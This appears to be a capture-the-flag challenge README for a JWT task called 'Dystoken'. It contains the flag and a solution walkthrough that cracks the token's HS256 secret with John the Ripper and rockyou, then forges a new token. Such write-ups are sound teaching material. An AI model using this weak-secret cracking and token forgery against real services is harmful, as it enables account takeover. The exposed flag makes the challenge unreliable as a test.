

# Dystoken

Author: Cyrus Tan

Date Created/Modified: 14/10/2022

Flag: LNC2023{j50n_t0k3ns?}

## Description

Enter the portal if you dare

Connect using `ipaddress:3129`

## Hints

1. /flag

## Distribution

These are the files that will be sent to the participants

- YourFileNameHere
  - SHA1: `YourSHA1DigestOfFileHere`
- YourSecondFileNameHere (IF ANY)
  - SHA1: `YourSHA1DigestOfFileHere`

## Setup

```
docker build -t dystoken .
docker run -d -p 8084:8084 --rm -it dystoken
```

## Solution

Obtain Cookie from

```
curl -c - https://ipaddress:3129/flag
```

Decoding it in https://jwt.io/

```
{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "fresh": false,
  "iat": 1662436293,
  "jti": "35bee9f9-e466-49ef-a1bf-f6738ceb3a88",
  "type": "access",
  "sub": "anonymous",
  "nbf": 1662436293,
  "csrf": "4dcc47fd-f507-497f-b15f-193f64f5a2df",
  "exp": 1662437193
}
```

Obtain secret key (trinity)

```
john jwt.txt --wordlist=rockyou.txt --format=HMAC-SHA256
john --show jwt.txt
```

Recreate the token with key with secret key



Replace token and obtain flag
